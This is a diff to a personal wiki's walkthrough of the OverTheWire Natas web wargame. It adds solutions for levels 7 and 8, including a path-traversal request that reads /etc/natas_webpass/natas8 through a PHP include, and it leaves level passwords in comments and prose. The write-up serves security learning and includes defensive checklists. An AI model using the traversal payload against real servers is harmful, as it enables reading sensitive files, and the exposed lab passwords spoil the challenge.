

Before and after one commit to Fudomaru/wiki, an MkDocs documentation site: the page built from docs/challenges/overthewire/natas.md, in a window 1280 px wide and 1400 px high, scrolled down 10669 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 11299 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Work on owt/natas

````diff
--- a/docs/challenges/overthewire/natas.md
+++ b/docs/challenges/overthewire/natas.md
@@ -123,7 +123,9 @@
 ### Following the Trail
 Instead of looking at the picture itself, I cut it off at the directory and tried to see if `/files/` was open:
 
-Codeblock with example here: curl -i -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI http://natas2.natas.labs.overthewire.org/files/
+```bash
+curl -i -u natas2:natas2password http://natas2.natas.labs.overthewire.org/files/
+```
 
 And yes — Apache is happily showing me a directory listing.
 Inside are two files:
@@ -135,7 +137,9 @@
 ### The Jackpot – users.txt
 Pulling `users.txt` gave me a list of dummy users, with one real gem tucked inside:
 
-Codeblock with example here: curl -i -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI http://natas2.natas.labs.overthewire.org/files/users.txt
+```bash
+curl -i -u natas2password http://natas2.natas.labs.overthewire.org/files/users.txt
+```
 
 In between fake creds like `alice` and `bob`, the entry for `natas3` stood out with the real password:
 
@@ -350,11 +354,13 @@
 
 Accessing the level with basic authentication:
 
-Codeblock example here: curl -i -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned http://natas6.natas.labs.overthewire.org/
+```bash
+curl -i -u natas6:natas6password http://natas6.natas.labs.overthewire.org/
+```
 
 Returns a page containing a simple form:
 
-```bash
+```html
 <form method=post> Input secret: <input name=secret><br> <input type=submit name=submit> </form>
 ```
 
@@ -365,16 +371,18 @@
 The level provides a link to the source code:
 
 ```bash
-curl -i -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned http://natas6.natas.labs.overthewire.org/index-source.html
+curl -i -u natas6:natas6password http://natas6.natas.labs.overthewire.org/index-source.html
 ```
 
 Inspecting the source shows:
 
-Codeblock example here: <?php include "includes/secret.inc";
+```html
+<?php include "includes/secret.inc";
 if(array_key_exists("submit", $_POST)) {
 if($secret == $_POST['secret']) { print "Access granted.
     The password for natas7 is <censored>"; }
 else { print "Wrong secret"; } } ?>
+```
 
 ### Key Insight
 
@@ -401,7 +409,9 @@
 
 With `curl` we can emulate the form submission:
 
-Codeblock example here: curl -i -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned -d "secret=FOEIUWGHFEEUHOFUOIU&submit=submit" http://natas6.natas.labs.overthewire.org/
+```bash
+curl -i -u natas6:natas6password -d "secret=FOEIUWGHFEEUHOFUOIU&submit=submit" http://natas6.natas.labs.overthewire.org/
+```
 
 
 ## Summary
@@ -416,8 +426,175 @@
 <!--
 bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
 -->
+
+---
+
 ## Level 7 → Level 8
+
+### Level goal
+
+Read the password for `natas8` by manipulating the page include parameter.
+What you should learn:
+how unsanitized file-includes or direct `include` calls in PHP
+can be abused with path traversal (LFI) to read arbitrary files on the server.
+
+### Short explanation of the vulnerability
+
+The app exposes a `page` parameter that the backend uses to include content.
+If the parameter is concatenated into an include path without validation,
+an attacker can supply traversal sequences (`../`)
+to escape the webroot and include files like `/etc/natas_webpass/natas8`.
+
+### Step-by-step (what I ran and what the server returned)
+
+1) Inspect the page to see how it behaves
+
+```bash
+curl -i -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS http://natas7.natas.labs.overthewire.org/
+```
+
+Server response (relevant parts):
+
+```html
+<h1>natas7</h1>
+<a href="index.php?page=home">Home</a>
+<a href="index.php?page=about">About</a>
+<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
+</body>
+</html>
+```
+
+Observation: there is a `page` parameter used in links
+and a comment explicitly pointing at `/etc/natas_webpass/natas8`.
+That suggests the app includes files from `page`.
+
+2) Try path traversal to include the target file directly
+
+```bash
+curl -i -u natas7:natas7password "http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8"
+```
+
+Server response (relevant part):
+
+```html
+<h1>natas7</h1>
+<div id="content">
+
+<a href="index.php?page=home">Home</a>
+<a href="index.php?page=about">About</a>
+natas8password
+<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
+</div>
+```
+
+### Lessons learned (concise)
+
+- If user input controls include/require paths, attackers can traverse the filesystem and read sensitive files.
+- LFI often reveals configuration files, password files, source code, or tokens stored outside webroot.
+- Always validate and canonicalize requested paths, restrict includes to an allowlist, and never allow raw user input to drive filesystem includes.
+- Limit the web process privileges so sensitive files like `/etc/natas_webpass/*` aren’t readable by the web user.
+
+### Quick defensive checklist for admins
+
+- Canonicalize and resolve include paths; reject any input that contains traversal.
+- Use an allowlist of permitted page names (map short IDs to files, don't use raw filenames).
+- Run web services with minimal privileges; protect sensitive files with strict permissions.
+- Log suspicious include attempts and alert on repeated traversal patterns.
+
+---
+
+<!--
+xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
+-->
+
+
 ## Level 8 → Level 9
+
+### Level goal
+
+Read the password for `natas9` by reversing
+the transformation the server performs on the submitted secret.
+What you should learn:
+how to reason about simple encoding pipelines (base64 → reverse → hex)
+and how to invert them on the command line.
+
+### Short explanation of the vulnerability / challenge
+
+The page accepts a `secret` via POST and runs a PHP function:
+
+`encodeSecret($secret) { return bin2hex( strrev( base64_encode($secret) ) ); }`
+
+The page compares the result against a hard-coded hex string.
+If your submitted secret, after going through that pipeline,
+matches the stored hex, the server prints the password for `natas9`.
+Our task is to reverse the stored hex back to the original secret, then POST it.
+
+### Step-by-step (what I ran and what the server returned)
+
+1) Fetch the source to understand the transformation
+
+```bash
+curl -i -u natas8:natas8password http://natas8.natas.labs.overthewire.org/index-source.html
+```
+
+Server response (relevant excerpt):
+the source shows the encoded value assigned to
+`$encodedSecret:3d3d516343746d4d6d6c315669563362` and the function:
+`encodeSecret($secret) { return bin2hex(strrev(base64_encode($secret))); }`
+
+Observation: the pipeline is clear. Hex of reversed(base64(secret)).
+To find the correct `secret`, we reverse the pipeline:
+hex → bytes → reverse → base64-decode → secret.
+
+2) Reverse the encoding on the CLI (exact reproducible command)
+
+```bash
+printf '%s' '3d3d516343746d4d6d6c315669563362' | xxd -r -p | rev | base64 -d; echo
+```
+
+What this does (concise):
+- `xxd -r -p` converts the hex string to raw bytes
+- `rev` reverses the string
+- `base64 -d` decodes base64 back to the original secret
+
+Expected output: `oubWYf2kBq`
+
+3) Verify by submitting the discovered secret via POST
+
+```bash
+curl -i -u natas8:natas8password -d "secret=oubWYf2kBq&submit=Submit" http://natas8.natas.labs.overthewire.org/
+```
+
+Server response (relevant part):
+`Access granted. The password for natas9 is natas9password`
+
+Notes on reliable CLI usage:
+
+- Use `printf '%s'` rather than `echo` to avoid accidental trailing newlines that break base64.
+- `xxd -r -p` reverses hex to bytes; `xxd -p` prints hex.
+- `rev` operates on the line contents and is perfect for `strrev` equivalents.
+- If your environment lacks GNU `base64` flags, `openssl base64 -d` is an acceptable substitute.
+
+
+### Lessons learned (concise)
+
+- Encoding pipelines can be inverted by applying the inverse operations in reverse order. Think of the transform as a stack you pop in reverse.
+- Understanding small building blocks (base64, string reversal, hex encoding) is high leverage — they show up in CTFs and real systems.
+- CLI tools (xxd, rev, base64, Python) let you do what GUIs like CyberChef do — but faster, scriptable, and reproducible.
+
+### Quick defensive checklist for admins
+- Don’t rely on “obscurity by encoding” for security. Encoding is not encryption.
+- If server logic depends on a secret comparison, keep secrets out of the source when possible and protect runtime files with strict permissions.
+- Log and alert on suspicious repeated attempts to reverse-engineer or brute-force secret checks.
+
+---
+
+Password discovered: `ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t` — use it to authenticate as `natas9` and continue.
+
+<!--
+ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t
+-->
+
 ## Level 9 → Level 10
 ## Level 10 → Level 11
 ## Level 11 → Level 12
````
Also changed, not shown: other parts of docs/challenges/overthewire/natas.md (+8 -8 lines).
